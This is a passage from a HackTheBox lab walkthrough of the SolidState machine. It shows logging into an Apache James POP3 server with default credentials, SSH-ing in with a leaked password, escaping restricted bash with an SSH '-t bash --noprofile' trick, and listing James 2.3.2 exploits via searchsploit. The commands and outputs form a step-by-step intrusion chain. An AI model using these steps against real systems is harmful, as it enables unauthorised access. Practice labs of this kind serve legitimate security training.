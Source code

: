 There’s a SSH credential in the email for `mindy`. 

Before we move on, we should also check `mailadmin`'s account.

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mailadmin
+OK
PASS password
+OK Welcome mailadmin
list
+OK 0 0
.
```

Nothing useful.

We can now SSH as `mindy` with her credentials.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# ssh mindy@10.10.10.51                                                 ...
mindy@10.10.10.51's password: P@55W0rd1!2@
...
mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ id
-rbash: id: command not found
```

As stated in the email, `mindy` has a restricted bash account. Therefore, we need to find a way to bypass this!

## Method 1 - Escape using SSH

We can ask SSH to spawn us a bash shell by using `-t "bash --noprofile"`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# ssh mindy@10.10.10.51 -t "bash --noprofile"
mindy@10.10.10.51's password: P@55W0rd1!2@
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

## Method 2 - Searchsploit

Lets check if there is any known exploits for James Mail Server.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/SolidState]
└─# searchsploit james 2.3.2                   
...
Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit | linux/remote/48130.rb
Apache James Server 2.3.2 - Remote Command Execution                                | linux/remote/35513.py
Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)      | linux/remote/50347.py
...
```

